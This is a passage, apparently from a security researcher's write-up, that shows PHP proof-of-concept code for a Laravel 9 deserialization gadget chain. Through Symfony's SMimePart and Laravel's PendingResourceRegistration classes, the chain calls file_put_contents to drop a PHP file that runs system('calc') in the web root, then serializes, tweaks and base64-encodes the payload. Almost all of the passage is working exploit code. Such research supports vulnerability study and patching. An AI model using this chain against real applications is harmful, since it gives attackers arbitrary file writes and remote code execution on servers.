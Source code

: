 ```php
        protected $controller;
        protected $options = [];
        protected $registered = false;
        function __construct() {
            $this->registrar = new \Faker\Generator();
            $this->name = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->controller = "<?php phpinfo();system('calc');?>";
            $this->options = 8;
        }

    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart {
        private $headers = null;
    }
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["register"=>"file_put_contents"];
            $this->h3rmesk1t = new \Illuminate\Routing\PendingResourceRegistration();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

<div align=center><img src="./images/18.png"></div>
